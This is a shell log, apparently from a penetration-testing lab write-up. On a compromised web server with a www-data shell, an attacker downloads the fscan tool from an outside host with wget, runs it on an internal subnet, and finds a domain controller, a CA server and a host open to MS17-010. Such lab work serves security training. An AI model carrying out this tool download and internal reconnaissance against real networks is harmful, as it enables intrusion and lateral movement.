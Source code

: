 ```shell
(remote) www-data@ubuntu-web:/tmp$ wget 139.*.*.*:8000/fscan_amd64.1
--2024-07-26 14:45:03--  http://139.*.*.*:8000/fscan_amd64.1
Connecting to 139.*.*.*:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6217056 (5.9M) [application/octet-stream]
Saving to: ‘fscan_amd64.1’

fscan_amd64.1                                       100%[===================================================================================================================>]   5.93M  13.3MB/s    in 0.4s

2024-07-26 14:45:04 (13.3 MB/s) - ‘fscan_amd64.1’ saved [6217056/6217056]

(remote) www-data@ubuntu-web:/tmp$ chmod +x fscan_amd64.1
(remote) www-data@ubuntu-web:/tmp$ ./fscan_amd64.1 -h 172.22.15.26/24
......
start ping
(icmp) Target 172.22.15.13    is alive
(icmp) Target 172.22.15.18    is alive
(icmp) Target 172.22.15.24    is alive
(icmp) Target 172.22.15.26    is alive
(icmp) Target 172.22.15.35    is alive
[*] Icmp alive hosts len is: 5
172.22.15.13:445 open
172.22.15.18:445 open
172.22.15.24:3306 open
172.22.15.35:445 open
172.22.15.24:445 open
172.22.15.35:139 open
172.22.15.24:139 open
172.22.15.13:139 open
172.22.15.18:139 open
172.22.15.35:135 open
172.22.15.24:135 open
172.22.15.13:135 open
172.22.15.18:135 open
172.22.15.24:80 open
172.22.15.18:80 open
172.22.15.26:80 open
172.22.15.13:88 open
172.22.15.26:22 open
[*] alive ports len is: 18
start vulscan
[*] NetInfo:
[*]172.22.15.13
   [->]XR-DC01
   [->]172.22.15.13
[*] NetInfo:
[*]172.22.15.24
   [->]XR-WIN08
   [->]172.22.15.24
[*] NetInfo:
[*]172.22.15.18
   [->]XR-CA
   [->]172.22.15.18
[*] NetInfo:
[*]172.22.15.35
   [->]XR-0687
   [->]172.22.15.35
[*] 172.22.15.13  (Windows Server 2016 Standard 14393)
[+] 172.22.15.24        MS17-010        (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] NetBios: 172.22.15.13    [+]DC XR-DC01.xiaorang.lab          Windows Server 2016 Standard 14393
[*] NetBios: 172.22.15.18    XR-CA.xiaorang.lab                  Windows Server 2016 Standard 14393
```
